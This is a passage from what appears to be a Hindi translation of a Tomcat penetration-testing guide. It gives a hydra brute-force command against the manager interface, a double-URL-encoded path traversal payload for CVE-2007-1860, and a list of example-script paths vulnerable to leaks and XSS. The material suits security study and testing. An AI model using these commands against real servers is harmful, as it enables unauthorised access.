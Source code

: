 प्रबंधक निर्देशिका पर ब्रूट फोर्स हमले का प्रयास करने के लिए, कोई उपयोग कर सकता है:
```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```
Along with setting various parameters in Metasploit to target a specific host.

## सामान्य कमजोरियाँ

### **पासवर्ड बैकट्रेस प्रकटीकरण**

`/auth.jsp` तक पहुँचने से भाग्यशाली परिस्थितियों में बैकट्रेस के तहत पासवर्ड प्रकट हो सकता है।

### **डबल URL एन्कोडिंग**

`mod_jk` में CVE-2007-1860 कमजोरियाँ डबल URL एन्कोडिंग पथ यात्रा की अनुमति देती हैं, जिससे विशेष रूप से तैयार किए गए URL के माध्यम से प्रबंधन इंटरफ़ेस तक अनधिकृत पहुँच संभव होती है।

टॉमकैट के प्रबंधन वेब तक पहुँचने के लिए जाएँ: `pathTomcat/%252E%252E/manager/html`

### /examples

Apache Tomcat संस्करण 4.x से 7.x में उदाहरण स्क्रिप्ट शामिल हैं जो जानकारी के प्रकटीकरण और क्रॉस-साइट स्क्रिप्टिंग (XSS) हमलों के प्रति संवेदनशील हैं। इन स्क्रिप्टों की पूरी सूची को अनधिकृत पहुँच और संभावित शोषण के लिए जांचा जाना चाहिए। [यहाँ अधिक जानकारी प्राप्त करें](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp

### **पथ यात्रा शोषण**
